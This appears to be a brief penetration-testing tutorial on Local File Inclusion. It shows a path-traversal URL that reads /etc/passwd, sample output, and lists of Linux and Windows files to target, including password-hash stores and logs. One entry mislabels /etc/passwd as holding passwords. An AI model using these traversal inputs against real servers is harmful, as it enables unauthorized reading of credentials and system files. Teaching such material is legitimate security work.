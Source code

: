 # LFI

## Theory

The **Local File Include** vulnerability is a web vulnerbility that allows a hacker to read/view sensitive information on the Web Server.

In practice, the follow URL may be affected by LFI vulnerability:

```
https://company.com/download?ticket=3123345123-345345123.json
```

We see that we can change the variable indicating the file to be displayed. Try to change it with a local file with possible sensitive information:

```
https://company.com/download?ticket=../../../../../../etc/passwd
```

This URL will display the entire file content.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
[..snip..]
```



## Sensitive file to get

{% code title="Linux Web Server" %}
```bash
/etc/passwd # system's user
/etc/passwd # system's password 
/etc/hosts # may contain subdomain
/var/log/apache2/access.log # may contain credentials
/var/log/auth.log # ssh logon
/var/log/secure # admin activities
```
{% endcode %}

{% code title="Windows Web Server" %}
```bash
C:\Windows\System32\drivers\etc\hosts # other domain and subdomain
C:\Windows\System32\config\SAM # password hashes 
C:\inetpub\logs\LogFiles\W3SVC1\*.log # IIS log
C:\Users\Administrator\Desktop\* # admin files
```
{% endcode %}





